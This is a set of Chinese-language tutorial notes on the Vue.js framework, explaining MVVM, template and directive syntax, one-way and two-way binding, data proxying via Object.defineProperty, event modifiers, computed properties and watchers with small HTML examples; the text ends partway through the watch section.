<h1>VUE</h1>

----


# 目录

[TOC]


---


# 一、简介


## 1.1：是什么


Vue (读音 `/vjuː/`，类似于 view) 是一套用于构建用户界面的渐进式框架。与其它大型框架不同的是，Vue 被设计为可以自底向上逐层应用。Vue 的核心库只关注视图层，不仅易于上手，还便于与第三方库或既有项目整合。另一方面，当与现代化的工具链以及各种支持类库结合使用时，Vue 也完全能够为复杂的单页应用提供驱动。


## 1.2：vue3带来了什么


### 1.性能的提升


- 打包大小减少41%

- 初次渲染快55%, 更新渲染快133%

- 内存减少54%

  ......

  

### 2.源码的升级


- 使用Proxy代替defineProperty实现响应式

- 重写虚拟DOM的实现和Tree-Shaking

  ......

  

### 3.拥抱TypeScript


- Vue3可以更好的支持TypeScript


### 4.新的特性


1. Composition API（组合API）

   - setup配置
   - ref与reactive
   - watch与watchEffect
   - provide与inject
   - ......
2. 新的内置组件
   - Fragment 
   - Teleport
   - Suspense
3. 其他改变

   - 新的生命周期钩子
   - data 选项应始终被声明为一个函数
   - 移除keyCode支持作为 v-on 的修饰符
   - ......


## 1.3：vue周边库


1. vue-cli: vue 脚手架 

2. vue-resource 

3. axios 

4. vue-router: 路由 

5. vuex: 状态管理 

6. element-ui: 基于 vue 的 UI 组件库(PC 端)


## 1.4：MVVM模型


> 先了解一下vue[再来看](#三、VUE基础（一）)


### 1.简介


1. M：模型(Model) ：对应 data 中的数据 

2. V：视图(View) ：模板 

3. VM：视图模型(ViewModel) ： Vue 实例对象




### 2.代码


```java
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>理解MVVM</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 
			MVVM模型
						1. M：模型(Model) ：data中的数据
						2. V：视图(View) ：模板代码
						3. VM：视图模型(ViewModel)：Vue实例
			观察发现：
						1.data中所有的属性，最后都出现在了vm身上。
						2.vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用。
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<h1>学校名称：{{name}}</h1>
			<h1>学校地址：{{address}}</h1>
			<!-- <h1>测试一下1：{{1+1}}</h1>
			<h1>测试一下2：{{$options}}</h1>
			<h1>测试一下3：{{$emit}}</h1>
			<h1>测试一下4：{{_c}}</h1> -->
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				address:'北京',
			}
		})
		console.log(vm)
	</script>
</html>
```


### 3.总结


+ data中所有的属性，最后都出现在了vm身上。
+ vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用。


# 二、helloworld


## 2.1：下载vue.js


vue.js

```java
https://cdn.jsdelivr.net/npm/vue@2
```

vue.min.js

```java
https://cdn.jsdelivr.net/npm/vue@2
```


## 2.2：创建html页面


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
    <div id="app">
        <h1>Hello {{name}}</h1>
    </div>
</body>
<script type="text/javascript">
    new Vue({
        el: "#app",
        data:{
            name: "小糊涂"
       }
    });

</script>
</html>
```


## 2.3：页面测试




## 2.4：总结


初识Vue：

1.想让Vue工作，就必须创建一个Vue实例，且要传入一个配置对象；

2.root容器里的代码依然符合html规范，只不过混入了一些特殊的Vue语法；

3.root容器里的代码被称为【Vue模板】；

4.Vue实例和容器是一一对应的；

5.真实开发中只有一个Vue实例，并且会配合着组件一起使用；

6.{{xxx}}中的xxx要写js表达式，且xxx可以自动读取到data中的所有属性；	

7.一旦data中的数据发生改变，那么页面中用到该数据的地方也会自动更新；


```java
注意区分：js表达式 和 js代码(语句)
			1.表达式：一个表达式会产生一个值，可以放在任何一个需要值的地方：
						(1). a
						(2). a+b
						(3). demo(1)
						(4). x === y ? 'a' : 'b'

			2.js代码(语句)
						(1). if(){}
						(2). for(){}
```


## 2.5：注意


```java
Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
```


# 三、VUE基础（一）


> 基础既是核心


## 3.1：模板语法


### 1.简介


Vue.js 使用了基于 HTML 的模板语法，允许开发者声明式地将 DOM 绑定至底层 Vue 实例的数据。所有 Vue.js 的模板都是合法的 HTML，所以能被遵循规范的浏览器和 HTML 解析器解析。

在底层的实现上，Vue 将模板编译成虚拟 DOM 渲染函数。结合响应系统，Vue 能够智能地计算出最少需要重新渲染多少组件，并把 DOM 操作次数减到最少。

如果你熟悉虚拟 DOM 并且偏爱 JavaScript 的原始力量，你也可以不用模板，直接写渲染 (render) 函数，使用可选的 JSX 语法。


### 2.插值语法


#### 简介


数据绑定最常见的形式就是使用“Mustache”语法 (双大括号) 的文本插值：

```java
<span>Message: {{ msg }}</span>
```


Mustache 标签将会被替代为对应数据对象上 `msg` property 的值。无论何时，绑定的数据对象上 `msg` property 发生了改变，插值处的内容都会更新。

> 你的站点上动态渲染的任意 HTML 可能会非常危险，因为它很容易导致 [XSS 攻击](https://en.wikipedia.org/wiki/Cross-site_scripting)。请只对可信内容使用 HTML 插值，**绝不要**对用户提供的内容使用插值。


#### 案例


```java
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Title</title>
  <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="app">
  <h1>插值语法 ： {{name}}</h1>
</div>
</body>
<script type="text/javascript">
  new Vue({
    el: "#app",
    data:{
      name: "小糊涂"
    }
  });
</script>
</html>
```


### 3.指令语法


#### 简介


指令 (Directives) 是带有 `v-` 前缀的特殊 attribute。指令 attribute 的值预期是**单个 JavaScript 表达式** (`v-for` 是例外情况，稍后我们再讨论)。指令的职责是，当表达式的值改变时，将其产生的连带影响，响应式地作用于 DOM。回顾我们在介绍中看到的例子：

```java
<p v-if="seen">现在你看到我了</p>
```

这里，`v-if` 指令将根据表达式 `seen` 的值的真假来插入/移除 `<p>` 元素。


#### 案例


```java
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8" />
  <title>模板语法</title>
  <!-- 引入Vue -->
  <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h1>插值语法</h1>
  <h3>你好，{{name}}</h3>
  <hr/>
  <h1>指令语法</h1>
  <a v-bind:href="school.url.toUpperCase()" x="hello">点我去{{school.name}}学习1</a>
  <a :href="school.url" x="hello">点我去{{school.name}}学习2</a>
</div>
</body>

<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'jack',
      school:{
        name:'百度',
        url:'http://www.baidu.com',
      }
    }
  })
</script>
</html>
```


### 4.总结


Vue模板语法有2大类：

+ 1.插值语法：
  + 功能：用于解析标签体内容。
  + 写法：{{xxx}}，xxx是js表达式，且可以直接读取到data中的所有属性。

+ 2.指令语法：

  + 功能：用于解析标签（包括：标签属性、标签体内容、绑定事件.....）。

 ```java
举例：v-bind:href="xxx" 或  简写为 :href="xxx"，xxx同样要写js表达式，且可以直接读取到data中的所有属性
 ```

  + 备注：Vue中有很多的指令，且形式都是：v-????，此处我们只是拿v-bind举个例子。


## 3.2：数据绑定


### 1.简介


vue中只有两种数据绑定：

+ 单向绑定(v-bind)：数据只能从data流向页面。
+ 双向绑定(v-model)：数据不仅能从data流向页面，还可以从页面流向data。


> 备注：
>
> + 双向绑定一般都应用在表单类元素上（如：input、select等）
> + v-model:value 可以简写为 v-model，因为v-model默认收集的就是value值。


### 2.单项绑定


#### 简介


> 数据只能从data流向页面。


#### 代码


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8" />
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
<!--  普通写法
  单向数据绑定：<input type="text" v-bind:value="name"><br/>-->

    <!--简写-->
    单向数据绑定：<input type="text" :value="name"><br/>
    数据显示：{{name}}
</div>
</body>

<script type="text/javascript">
    new Vue({
        el:'#root',
        data:{
            name:'小糊涂'
        }
    })
</script>
</html>
```


#### 测试

> 输入框输入内容观察数据显示的数据是否会变化？（不会变）




### 3.双向数据绑定


#### 简介


据不仅能从data流向页面，还可以从页面流向data。


#### 代码


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8" />
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
<!--  普通写法
  单向数据绑定：<input type="text" v-model:value="name"><br/>-->
    <!--简写-->
    双向数据绑定：<input type="text" v-model="name"><br/>
    数据显示：{{name}}
</div>
</body>

<script type="text/javascript">
    new Vue({
        el:'#root',
        data:{
            name:'小糊涂'
        }
    })
</script>
</html>
```


##### 测试


> 输入框输入内容观察数据显示的数据是否会变化？（会变）





### 4.注意


使用双向绑定时：`v-model`不能这样写：

```java
<!-- 如下代码是错误的，因为v-model只能应用在表单类元素（输入类元素）上 -->
<!-- <h2 v-model:x="name">你好啊</h2> -->
```


## 3.3：VUE实例中的写法


### 1.简介





### 2.el的写法


#### 示例


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>hello {{name}}</h1>
</div>
</body>

<script type="text/javascript">
    //el的两种写法
    const v = new Vue({
        //el:'#root', //第一种写法
        data: {
            name: '尚硅谷'
        }
    })
    console.log(v)
    v.$mount('#root') //第二种写法
</script>
</html>
```


#### 总结


(1).new Vue时候配置el属性。

(2).先创建Vue实例，随后再通过vm.$mount('#root')指定el的值。


### 3.data写法


#### 示例


```java
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8" />
  <title>demo</title>
  <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h1>hello {{name}}</h1>
</div>
</body>

<script type="text/javascript">
  new Vue({
    el:'#root',
/*    data:{
      name:'小糊涂' 第一种
    }*/
    data(){
      return {
        name: "小糊涂" //第二种
      }
    }
  })
</script>
</html>
```


#### 总结


+ 对象式
+ 函数式
  + 如何选择：目前哪种写法都可以，以后学习到组件时，data必须使用函数式，否则会报错。


### 4.注意


> 由Vue管理的函数，一定不要写箭头函数，一旦写了箭头函数，this就不再是Vue实例了。


## 3.4：数据治理


>   鼎鼎有名的Vue.js实现数据双向绑定的原理就是用的Object.defineProperty，


### 1.Object.defineproperty方法


#### 语法


```java
Object.defineProperty(obj, prop, descriptor)
```


+ obj：需要定义属性的对象
+ prop：需要定义的属性
+ descriptor：属性的描述描述符
+ 返回值：返回此对象


#### 例子


```java
let  obj = Object.create(null);
let descriptor = {
    configurable:false,
    writable:false,
    enumerable:false,
    value:'hello world'
};
Object.defineProperty(obj,'hello',descriptor);
 
console.log(obj.hello);//hello world
```


#### 数据描述符


数据描述符是一个具有值的属性，该值可能是可写的，也可能是不可写的。

它具有以下可选的键值：

+ configurable：表示该属性能否通过delete删除，能否修改属性的特性或者能否修改访问器属性，默认为false。当且仅当该属性的configurable为true时，才能实现上述行为。

+ enumerable：表示该属性是否可以枚举，即可否通过for..in访问属性。默认为false。

+ value：表示该属性的值。可以是任何有效的JS值。默认为undefined。

+ writable：表示该属性的值是否可写，默认为false。当且仅当属性的writable为true时，其值才能被赋值运算符改变。


```java
    var obj = {
        test: "hello"
    }
    for (let objKey in obj) {
        console.log(objKey)
    }
    //对象已有的属性添加特性描述
    Object.defineProperty(obj, "test", {
        configurable: true | false,
        enumerable: true | false,
        value: '任意类型的值',
        writable: true | false
    });
    //对象新添加的属性的特性描述
    Object.defineProperty(obj, "newKey", {
        configurable: true | false,
        enumerable: true | false,
        value: '任意类型的值',
        writable: true | false
    });
    console.log(obj)
    for (let objKey in obj) {
        console.log(objKey)
    }
```


#### **存取器描述**


当使用存取器描述属性的特性的时候，允许设置以下特性属性：


```java
var obj = {};
Object.defineProperty(obj,"newKey",{
    get:function (){} | undefined,
    set:function (value){} | undefined
    configurable: true | false
    enumerable: true | false
});
```


#### 注意


**注意：当使用了getter或setter方法，不允许使用writable和value这两个属性**


#### **getter/setter**


当设置或获取对象的某个属性的值的时候，可以提供getter/setter方法。

- getter 是一种获得属性值的方法
- setter是一种设置属性值的方法。

在特性中使用get/set属性来定义对应的方法。


```java
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8" />
  <title>demo</title>
  <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h1>hello {{name}}</h1>
</div>
</body>

<script>
  var obj = {};
  var initValue = 'hello';
  Object.defineProperty(obj,"newKey",{
    get:function (){
      console.log('当获取值的时候触发的函数')
      return initValue;
    },
    set:function (value){
      console.log('当设置值的时候触发的函数,设置的新值通过参数value拿到')
      initValue = value;
    }
  });
  //获取值
  console.log( obj.newKey );  //hello
  //设置值
  obj.newKey = 'change value';
  console.log( obj.newKey ); //change value

</script>
</html>
```


#### 个人小总结


如果结合java来说这些东西就好比java中的get/set方法


### 2.何为数据代理


数据代理：通过一个对象代理对另一个对象中属性的操作（读/写）


```java
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>何为数据代理</title>
	</head>
	<body>
		<!-- 数据代理：通过一个对象代理对另一个对象中属性的操作（读/写）-->
		<script type="text/javascript" >
			let obj = {x:100}
			let obj2 = {y:200}

			Object.defineProperty(obj2,'x',{
				get(){
					return obj.x
				},
				set(value){
					obj.x = value
				}
			})
		</script>
	</body>
</html>
```


### 3.Vue中的数据代理


+ 1.Vue中的数据代理：
  + 通过vm对象来代理data对象中属性的操作（读/写）
+ 2.Vue中数据代理的好处：
  + 更加方便的操作data中的数据
+ 3.基本原理：
  + 通过Object.defineProperty()把data对象中所有属性添加到vm上。
  + 为每一个添加到vm上的属性，都指定一个getter/setter。
  + 在getter/setter内部去操作（读/写）data中对应的属性。


## 3.5：event对象


Event 对象代表事件的状态，比如事件在其中发生的元素、键盘按键的状态、鼠标的位置、鼠标按钮的状态。

事件通常与函数结合使用，函数不会在事件发生前被执行！

详情请看下面：

https://www.cnblogs.com/zxktxj/archive/2012/02/26/2369176.html

https://www.w3school.com.cn/htmldom/dom_obj_event.asp


## 3.6：事件处理


### 1.简介


1.使用v-on:xxx 或 @xxx 绑定事件，其中xxx是事件名；

2.事件的回调需要配置在methods对象中，最终会在vm上；

3.methods中配置的函数，不要用箭头函数！否则this就不是vm了；

4.methods中配置的函数，都是被Vue所管理的函数，this的指向是vm 或 组件实例对象；

5.@click="demo" 和 @click="demo($event)" 效果一致，但后者可以传参；
	


### 2.代码


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>hello {{name}}</h1>
    <button v-on:click="showInfo1">点我提示信息1（不传参）</button>
    <!--简写-->
    <button @click="showInfo2($event,66)">点我提示信息2（传参）</button>
</div>
</body>

<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            name: '小糊涂'
        }, methods: {
            showInfo1(event) {
                alert(1)
            },
            showInfo2(event, Number) {
                console.log(event,Number)
                alert(Number)
            }
        }
    })
</script>
</html>
```


### 3.注意


注意：我们使用@click可以使用一些简单的语句

```java
<button @click="isHost=!isHost">点击切换</button>  isHost:是布尔类型
```


## 3.7：事件修饰符


### 1.简介


1.prevent：阻止默认事件（常用）；

2.stop：阻止事件冒泡（常用）；

3.once：事件只触发一次（常用）；

4.capture：使用事件的捕获模式；

5.self：只有event.target是当前操作的元素时才触发事件；

6.passive：事件的默认行为立即执行，无需等待事件回调执行完毕；


### 2.代码


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8" />
    <title>事件修饰符</title>
    <!-- 引入Vue -->
    <script type="text/javascript" src="../js/vue.js"></script>
    <style>
        *{
            margin-top: 20px;
        }
        .demo1{
            height: 50px;
            background-color: skyblue;
        }
        .box1{
            padding: 5px;
            background-color: skyblue;
        }
        .box2{
            padding: 5px;
            background-color: orange;
        }
        .list{
            width: 200px;
            height: 200px;
            background-color: peru;
            overflow: auto;
        }
        li{
            height: 100px;
        }
    </style>
</head>
<body>
<!-- 准备好一个容器-->
<div id="root">
    <h2>欢迎来到{{name}}学习</h2>
   <h3>阻止默认事件（常用）</h3>
    <a href="http://www.baidu.com" @click="showInfo">点我提示信息</a>
    <a href="http://www.baidu.com" @click.prevent="showInfo">点我提示信息.prevent</a>
    <h3>阻止事件冒泡（常用）</h3>
    <div class="demo1" @click="showInfo">
        <button @click.stop="showInfo">点我提示信息</button>
        <button @click="showInfo">点我提示信息.stop</button>
        <!-- 修饰符可以连续写 -->
       <a href="http://www.baidu.com" @click.prevent.stop="showInfo">点我提示信息</a>
       <a href="http://www.baidu.com" @click="showInfo">点我提示信息.prevent.stop</a>
    </div>
   <h3>事件只触发一次（常用）</h3>
    <button @click.once="showInfo">点我提示信息</button>
    <button @click="showInfo">点我提示信息.once</button>
    <h3>使用事件的捕获模式</h3>
    <div class="box1" @click.capture="showMsg(1)">
        div1
        <div class="box2" @click="showMsg(2)">
            div2
        </div>
    </div>
    <div class="box1" @click="showMsg(1)">
        div1.capture
        <div class="box2" @click="showMsg(2)">
            div2.capture
        </div>
    </div>
    <h3>只有event.target是当前操作的元素时才触发事件；</h3>
    <div class="demo1" @click.self="showInfo">
        <button @click="showInfo">点我提示信息</button>
    </div>

    <h3>事件的默认行为立即执行，无需等待事件回调执行完毕；</h3>
    <ul passive="demo" class="list">
        <li>1</li>
        <li>2</li>
        <li>3</li>
        <li>4</li>
    </ul>
    <ul @wheel.passive="demo" class="list">
        <li>1@wheel.</li>
        <li>2@wheel.</li>
        <li>3@wheel.</li>
        <li>4@wheel.</li>
    </ul>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'小糊涂'
        },
        methods:{
            showInfo(e){
                alert('同学你好！')
                // console.log(e.target)
            },
            showMsg(msg){
                console.log(msg)
            },
            demo(){
                for (let i = 0; i < 100000; i++) {
                    console.log('#')
                }
                console.log('累坏了')
            }
        }
    })
</script>
</html>
```


## 3.8：键盘事件


### 1.简介


+ Vue中常用的按键别名：
  + 回车 => enter
  + 删除 => delete (捕获“删除”和“退格”键)
  + 退出 => esc
  + 空格 => space
  + 换行 => tab (特殊，必须配合keydown去使用)
  + 上 => up
  + 下 => down
  + 左 => left
  + 右 => right

+ Vue未提供别名的按键，可以使用按键原始的key值去绑定，但注意要转为kebab-case（短横线命名）

+ 系统修饰键（用法特殊）：ctrl、alt、shift、meta
  + 配合keyup使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。
  + 配合keydown使用：正常触发事件。
  + 配合keypress使用：键盘按住时触发

+ 也可以使用keyCode去指定具体的按键（不推荐）
+ Vue.config.keyCodes.自定义键名 = 键码，可以去定制按键别名


### 2.代码


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>键盘事件</title>
    <!-- 引入Vue -->
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<!-- 准备好一个容器-->
<div id="root">
    <h2>欢迎来到{{name}}学习</h2>
    <input type="text" placeholder="按下回车提示输入" @keyup="showInfo">
    <input type="text" placeholder="按下回车提示输入" @keyup.enter="showInfo">
    <input type="text" placeholder="按下回车提示输入" @keyup.huiche="showInfo">
    <input type="text" placeholder="按下回车提示输入" @keydown="showInfo">
    <input type="text" placeholder="按下回车提示输入" @keydown.enter="showInfo">
    <input type="text" placeholder="按下回车提示输入" @keydown.huiche="showInfo">
    <input type="text" placeholder="按下回车提示输入" @keypress="showInfo">
    <input type="text" placeholder="按下回车提示输入" @keypress.enter="showInfo">
    <input type="text" placeholder="按下回车提示输入" @keypress.huiche="showInfo">
</div>
</body>

<script type="text/javascript">
    Vue.config.keyCodes.huiche = 13 //定义了一个别名按键
    new Vue({
        el: '#root',
        data: {
            name: '尚硅谷'
        },
        methods: {
            showInfo(e) {
                console.log(e.key, e.keyCode,e.target.value)
            }
        },
    })
</script>
</html>
```


### 3.组合键盘


```html
<!--ALT+E-->     
<input type="text" placeholder="按下回车提示输入" @keydown.alt.e="showInfo">
<!--CTRL+E-->    
<input type="text" placeholder="按下回车提示输入" @keydown.ctrl.e="showInfo">
```


## 3.9：计算属性


### 1.姓名案例




当姓输入超过三个字的时候只显示前面三个后面的忽略掉


### 2.插值语法实现


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    姓：<input type="text" v-model="surname"><br>
    名：<input type="text" v-model="name"><br>
    全名: {{surname.length>=3?surname.substr(0,3):surname}}-{{name}}
</div>
</body>

<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            surname: '张',
            name: '三'
        }
    })
</script>
</html>
```


### 3.methods实现


```java
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8"/>
  <title>demo</title>
  <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  姓：<input type="text" v-model="surname"><br>
  名：<input type="text" v-model="name"><br>
  全名: {{getFullName()}}<br>
  全名: {{getFullName}}  这里是错误的页面打开观看
</div>
</body>

<script type="text/javascript">
  new Vue({
    el: '#root',
    data: {
      surname: '张',
      name: '三'
    },methods:{
      getFullName(){
        return  this.surname.length>=3?this.surname.substr(0,3):this.surname + '-' + this.name
      }
    }
  })
</script>
</html>
```


### 4.计算属性简介


+ 定义：要用的属性不存在，要通过已有属性计算得来。
+ 原理：底层借助了Objcet.defineproperty方法提供的getter和setter。
+ get函数什么时候执行？
  + 初次读取时会执行一次。
  + 当依赖的数据发生改变时会被再次调用。
+ 优势：与methods实现相比，内部有缓存机制（复用），效率更高，调试方便。
+ 备注：
    + 计算属性最终会出现在vm上，直接读取使用即可。
    + 如果计算属性要被修改，那必须写set函数去响应修改，且set中要引起计算时依赖的数据发生改变。


### 5.计算属性实现


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    姓：<input type="text" v-model="surname"><br>
    名：<input type="text" v-model="name"><br>
    全名: {{getFullName}}
<!--    全名: {{getFullName()}}-->
</div>
</body>

<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            surname: '张',
            name: '三'
        }, methods: {}, computed: {
            getFullName: {
                get() {
                    console.log("get被调用")
                    return this.surname.length>=3?this.surname.substr(0,3):this.surname + '-' + this.name;
                },set(value){
                    console.log("set被调用")
                    const arr = value.split('-')
                    this.firstName = arr[0]
                    this.lastName = arr[1]
                }
            }
        }
    })
</script>
</html>
```


### 6.计算属性简写


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    姓：<input type="text" v-model="surname"><br>
    名：<input type="text" v-model="name"><br>
    全名: {{getFullName}}
    <!--    全名: {{getFullName()}}-->
</div>
</body>

<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            surname: '张',
            name: '三'
        }, methods: {}, computed: {
            getFullName: function () {
                console.log("get被调用")
                return this.surname.length >= 3 ? this.surname.substr(0, 3) : this.surname + '-' + this.name;
            }
        }
    })
</script>
</html>
```


### 7.有用吗?


你可能已经注意到我们可以通过在表达式中调用方法来达到同样的效果：

```java
<p>Reversed message: "{{ reversedMessage() }}"</p>
```

```java
// 在组件中
methods: {
  reversedMessage: function () {
    return this.message.split('').reverse().join('')
  }
}
```


我们可以将同一函数定义为一个方法而不是一个计算属性。两种方式的最终结果确实是完全相同的。然而，不同的是**计算属性是基于它们的响应式依赖进行缓存的**。只在相关响应式依赖发生改变时它们才会重新求值。这就意味着只要 `message` 还没有发生改变，多次访问 `reversedMessage` 计算属性会立即返回之前的计算结果，而不必再次执行函数。

这也同样意味着下面的计算属性将不再更新，因为 `Date.now()` 不是响应式依赖：

```javascript
computed: {
  now: function () {
    return Date.now()
  }
}
```

相比之下，每当触发重新渲染时，调用方法将**总会**再次执行函数。

我们为什么需要缓存？假设我们有一个性能开销比较大的计算属性 **A**，它需要遍历一个巨大的数组并做大量的计算。然后我们可能有其他的计算属性依赖于 **A**。如果没有缓存，我们将不可避免的多次执行 **A** 的 getter！如果你不希望有缓存，请用方法来替代。

```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <input type="number" v-model="count">
    <h1>获取结果值testMethods: {{testMethods()}}</h1>
    <h1>获取结果值testMethods: {{testMethods()}}</h1>
    <h1>获取结果值test: {{test}}</h1>
    <h1>获取结果值test: {{test}}</h1>
    <h1>获取结果值test: {{test}}</h1>
</div>
</body>

<script type="text/javascript">
    const vm = new Vue({
            el: '#root',
            data() {
                return {
                    count: 1000
                }
            },
            methods: {
                testMethods(){
                    var result = 0;
                    console.log("testMethods")
                    for (let i = 0; i < this.count; i++) {
                        result += i
                    }
                    return result;
                }
            },
            computed: {
                test: function () {
                    var result = 0;
                    console.log("执行了test")
                    for (let i = 0; i < this.count; i++) {
                        result += i
                    }
                    return result;
                }
            }
        })
    ;
</script>
</html>
```




## 3.10：监视属性


### 1.天气切换案例




点击切换天气，天气为凉爽炎热


### 2.计算属性实现


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>今天天气很{{info}}</h1>
    <button @click="changeInfo">点击切换天气</button>
    <!--简写-->
    <button @click="isHost=!isHost">点击切换天气</button>
</div>
</body>

<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            isHost: true
        }, computed: {
            info() {
                return this.isHost ? '炎热' : '凉爽';
            }
        }, methods: {
            changeInfo() {
                this.isHost=!this.isHost
            }
        }
    })
</script>
</html>
```


### 3.简介


监视属性watch：
					1.当被监视的属性变化时, 回调函数自动调用, 进行相关操作
					2.监视的属性必须存在，才能进行监视！！
					3.监视的两种写法：
							(1).new Vue时传入watch配置
							(2).通过vm.$watch监视


### 4.监视属性实现


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>监视属性</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>今天天气很{{info}}</h1>
    <button @click="changeInfo">点击切换天气</button>
    <!--简写-->
    <button @click="isHost=!isHost">点击切换天气</button>
</div>
</body>

<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            isHost: true
        }, computed: {
            info() {
                return this.isHost ? '炎热' : '凉爽';
            }
        }, methods: {
            changeInfo() {
                this.isHost = !this.isHost
            }
        }, watch: {
            isHost: {
                handler(newArg,oldArg) {
                    console.log("发生了改变"+newArg,oldArg)
                }
            }
        }
    })
</script>
</html>
```


### 5.监视属性实现二


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>监视属性</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>今天天气很{{info}}</h1>
    <button @click="changeInfo">点击切换天气</button>
    <!--简写-->
    <button @click="isHost=!isHost">点击切换天气</button>
</div>
</body>

<script type="text/javascript">
    const vm = new Vue({
        el: '#root',
        data: {
            isHost: true
        }, computed: {
            info() {
                return this.isHost ? '炎热' : '凉爽';
            }
        }, methods: {
            changeInfo() {
                this.isHost = !this.isHost
            }
        }
    });
    vm.$watch("isHost", function (newArg, oldArg) {
        console.log("发生了改变" + newArg, oldArg)
    })
</script>
</html>
```


### 6.初始化时执行





### 7.深度监视


> 深度监视：
> 					(1).Vue中的watch默认不监测对象内部值的改变（一层）。
> 					(2).配置deep:true可以监测对象内部值改变（多层）。
> 			备注：
> 					(1).Vue自身可以监测对象内部值的改变，但Vue提供的watch默认不可以！
> 					(2).使用watch时根据数据的具体结构，决定是否采用深度监视。


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>监视属性</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>今天天气很{{info}}</h1>
    <button @click="changeInfo">点击切换天气</button>
    <!--简写-->
    <button @click="isHost=!isHost">点击切换天气</button>
    <hr>
    <h3>age的值是:{{users.age}}</h3>
    <button @click="users.age++">点我让age+1</button>
    <h3>money的值是:{{users.money}}</h3>
    <button @click="users.money++">点我让money+1</button>
    <button @click="users = {age:666,money:888}">彻底替换掉users</button>
    {{users.d}}
</div>
</body>

<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            isHost: true,
            users:{
                age:18,
                money:100
            }
        }, computed: {
            info() {
                return this.isHost ? '炎热' : '凉爽';
            }
        }, methods: {
            changeInfo() {
                this.isHost = !this.isHost
            }
        }, watch: {
            users: {
                deep: true,
                handler(newArg,oldArg) {
                    console.log("发生了改变"+newArg,oldArg)
                }
            }
        }
    })
</script>
</html>
```


### 8.简写形式


当我们监视的属性很简单，而且只用到了handle属性，那么我们可以简写


```java
<script type="text/javascript">
  const  vm = new Vue({
        el: '#root',
        data: {
            isHost: true
        }, computed: {
            info() {
                return this.isHost ? '炎热' : '凉爽';
            }
        }, methods: {
            changeInfo() {
                this.isHost = !this.isHost
            }
        }, watch: {
            isHost(newArg,oldArg){
                console.log("发生了改变"+newArg,oldArg)
            }
     /*       isHost: {
                handler(newArg,oldArg) {
                    console.log("发生了改变"+newArg,oldArg)
                }
            }*/
        }
    })
    //正常写法
    /* vm.$watch('isHot',{
        immediate:true, //初始化时让handler调用一下
        deep:true,//深度监视
        handler(newValue,oldValue){
